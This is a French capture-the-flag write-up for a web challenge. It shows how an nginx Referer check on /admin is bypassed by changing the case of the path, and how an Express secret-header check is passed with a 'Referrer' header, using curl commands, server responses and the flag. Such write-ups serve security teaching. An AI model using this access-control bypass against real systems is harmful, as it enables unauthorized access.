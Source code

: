 # T'as la référrrrrence ? (MEDIUM)

## Auteur(s) :
`Senkei`

## Catégorie :
`Web`

## Description :
On dirait que le service admin de l'université n'est pas totalement sécurisé.

J'ai besoin de ton aide pour contourner le système!

[https://ta-la-ref.univhackon.fr](https://ta-la-ref.univhackon.fr/)

[talareffff.zip](./talareffff.zip)

**Flag** : `UHOCTF{Fake_flag}`

---

## Solution


On doit contourner le système à deux endroits.

```conf
#nignx.conf
location /admin {
    if ($http_referer !~* "^https://admin\.univ-lr\.arpa") {
        return 403;
    }
```

```js
//app.js
app.get("/admin", (req, res) => {
    if (req.header("referer") === "ADMIN_LR_SECRET") {
        return res.send(process.env.FLAG);
    }

    res.send("Wrong header!");
})
```
Pour résoudre ce challenge, il faut donc dans un modifier le header "deux fois".

Pour Nginx on peut voir que c'est seulement sur /admin en case sensible pour autant express lui ne fait pas de différence. On peut donc bypasser le if de nginx en modifiant `https://ta-la-ref.univhackon.fr/admin` :
  
  * `https://ta-la-ref.univhackon.fr/admin/` 
  *  `https://ta-la-ref.univhackon.fr/Admin`
  *  `https://ta-la-ref.univhackon.fr/ADMIN`
  *  ...


### Premier bypass


```bash	
$ curl -i  https://ta-la-ref.univhackon.fr/Admin
````

```bash
HTTP/2 200
date: Fri, 16 Jun 2023 14:22:21 GMT
content-type: text/html; charset=utf-8
x-powered-by: Express
cf-cache-status: DYNAMIC
report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=EZKAV9TG12ztaIJ4r6JCL3n8rzVqKu%2B45Rjlfb2iMxvRdTWlhhGt2CZy4f17Cucvz4gYuttiVEG8oA1BOqUYzfgS7z0FHfyAwNghM%2FBZyEaAm%2F7btBKtiZrfRjs3%2FVYjOwIqQVRchqoZ%2FQ%3D%3D"}],"group":"cf-nel","max_age":604800}
nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
server: cloudflare
cf-ray: 7d83b45a5dae0498-CDG
alt-svc: h3=":443"; ma=86400

Wrong header!
```


Pour la partie Node, on regarde dans un premier temps les dépendances et on peut faire voir que express est utilisé en version 4.18

```js
  "dependencies": {
    "express": "^4.18.2"
}
  ```

On peut donc regarder la documentation de la version 4.18.2 de express et on peut voir que la fonction `req.header` est utilisée pour récupérer le header `referer` ou ```js req.get('Referrer')```.

On ajoute donc Referrer dans le header de la requête HTTP et on obtient le flag.


### Payload final 

```bash	
$ curl -i -H 'Referrer: ADMIN_LR_SECRET' https://ta-la-ref.univhackon.fr/Admin
````

```bash	
HTTP/2 200
date: Fri, 16 Jun 2023 14:27:05 GMT
content-type: text/html; charset=utf-8
x-powered-by: Express
cf-cache-status: DYNAMIC
report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=ftd36Sy6SCuadObVXT5mUMGiIbwzEtkn0mF%2Fy5%2B%2FJzVy3jSKNczOVNu%2F34qvfAD5oGMaYiqJI38KPsiFmrUqbYiONCy0KP0fvMm6vVUYJksUk0obU63O%2BJmwGlCu4XruRV6mQpiN2oga%2Fg%3D%3D"}],"group":"cf-nel","max_age":604800}
nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
server: cloudflare
cf-ray: 7d83bb49cb2d3c8d-CDG
alt-svc: h3=":443"; ma=86400

UHOCTF{Super_ref_keep_working!!}
```


**Flag** : `UHOCTF{Super_ref_keep_working!!}`





